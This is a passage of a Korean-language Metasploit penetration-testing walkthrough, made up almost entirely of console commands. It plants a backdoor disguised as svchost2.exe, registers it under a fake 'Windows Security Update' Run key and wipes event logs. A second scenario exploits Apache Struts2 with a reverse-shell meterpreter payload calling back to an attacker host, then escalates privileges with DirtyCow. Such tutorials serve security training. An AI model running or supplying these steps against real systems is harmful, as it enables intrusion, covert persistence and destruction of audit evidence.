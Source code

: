 #### 4단계: 지속성 확보

```bash
# 백도어 업로드
meterpreter > upload /root/backdoor.exe C:\\Windows\\System32\\svchost2.exe

# 레지스트리 지속성
meterpreter > reg setval -k HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v "Windows Security Update" -t REG_SZ -d "C:\\Windows\\System32\\svchost2.exe"

# 로그 삭제
meterpreter > clearev
```

## 시나리오 2: 웹 애플리케이션 공격을 통한 침투

### 상황: Apache Struts2 취약점 이용

#### 1단계: 웹 애플리케이션 스캔

```bash
# 웹 디렉토리 스캔
msf6 > use auxiliary/scanner/http/dir_scanner
msf6 auxiliary(scanner/http/dir_scanner) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/http/dir_scanner) > run

# Struts2 취약점 스캔
msf6 > use auxiliary/scanner/http/struts2_code_exec_parameters
msf6 auxiliary(scanner/http/struts2_code_exec_parameters) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/http/struts2_code_exec_parameters) > run
```

#### 2단계: 웹쉘 업로드

```bash
# Struts2 RCE 익스플로잇
msf6 > use exploit/multi/http/struts2_content_type_ognl
msf6 exploit(multi/http/struts2_content_type_ognl) > set RHOSTS 192.168.1.100
msf6 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI /struts2-showcase/
msf6 exploit(multi/http/struts2_content_type_ognl) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/struts2_content_type_ognl) > set LHOST 192.168.1.50
msf6 exploit(multi/http/struts2_content_type_ognl) > exploit
```

#### 3단계: 권한 상승 (Linux)

```bash
# 현재 사용자 확인
meterpreter > getuid

# 권한 상승 스크립트 실행
meterpreter > run post/multi/recon/local_exploit_suggester

# 커널 익스플로잇 시도
meterpreter > background
msf6 > use exploit/linux/local/cve_2016_5195_dirtycow
msf6 exploit(linux/local/cve_2016_5195_dirtycow) > set SESSION 1
msf6 exploit(linux/local/cve_2016_5195_dirtycow) > exploit
```
